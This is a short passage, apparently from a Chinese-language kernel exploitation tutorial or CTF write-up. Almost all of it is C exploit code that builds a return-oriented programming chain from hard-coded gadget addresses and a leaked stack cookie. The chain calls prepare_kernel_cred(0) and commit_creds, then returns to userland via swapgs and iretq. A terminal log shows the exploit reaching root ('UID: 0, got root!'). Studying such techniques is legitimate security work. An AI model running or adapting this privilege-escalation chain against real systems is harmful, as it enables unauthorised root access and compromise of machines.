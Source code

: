 ```
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow_nx2(void)`{`
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi &lt;- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx &lt;- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi &lt;- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
`}`
```

成功提权：

```
/ $ ./exploit 
[*] Saved state
[*] Opened device
a
[*] Leaked 160 bytes
[*] Cookie: 93a28166c6db3100
[*] Prepared payload
[*] Return to userland
[*] UID: 0, got root!
/ #
```
